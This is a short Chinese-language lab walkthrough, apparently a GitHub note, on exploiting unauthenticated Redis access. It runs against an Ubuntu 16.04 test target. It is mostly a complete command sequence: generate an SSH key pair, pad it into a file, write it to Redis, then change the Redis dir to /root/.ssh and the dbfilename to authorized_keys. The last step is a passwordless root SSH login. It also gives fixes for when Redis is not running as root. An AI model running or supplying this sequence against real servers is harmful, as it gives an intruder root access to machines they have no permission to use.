 # redis未授权访问

## 漏洞证明

安装redis服务

`apt install redis-tools`

访问redis服务

`redis-cli -h ip [-p 6379]`

![image-20210625152251553](.\images\image1.png)

## 测试环境

靶机：ubuntu 16.04

## 漏洞利用

#### SSH免密登陆（redis必须以root身份安装）

#### 生成ssh公钥/私钥

`ssh-keygen -t rsa -C "hack"`

![image-20210625180331909](.\images\image2.png)

![image-20210625180435209](.\images\image3.png)

#### 将生成的公钥写入文件中

`(echo -e "\n\n\n"; cat id_rsa.pub; echo -e "\n\n\n") > hack.txt`

![image-20210629170844032](.\images\image4.png)

#### 将hack.txt写入靶机

`cat hack.txt| redis-cli -h 192.168.5.135 -x set crack`



![image-20210629171115871](.\images\image5.png)

#### 查看redis备份文件路径

`config get dir`

#### 修改靶机redis备份路径

`config set dir /root/.ssh`

![image-20210701152616766](.\images\image7.png)

![image-20210701160625010](.\images\image8.png)

说明redis不是以root用户启动

解决办法

1）网上下载redis包并make编译安装，在安装目录下执行以下命令

`./redis-server`

2）在redis-server文件所在位置启动redis

`/usr/bin/redis-server`

![image-20210701160709356](.\images\image9.png)

![image-20210701160922771](.\images\image10.png)

#### 修改备份路径成功

![image-20210701161720971](.\images\image11.png)

#### 设置上传公钥的备份文件名为authorized_keys

`config set dbfilename authorized_keys`

![image-20210701164324402](.\images\image12.png)

#### ssh免密连接

`ssh -i id_rsa root@192.168.5.135`

![image-20210701165622742](C:\Users\thinkpad\Desktop\redis未授权访问\images\image13.png)

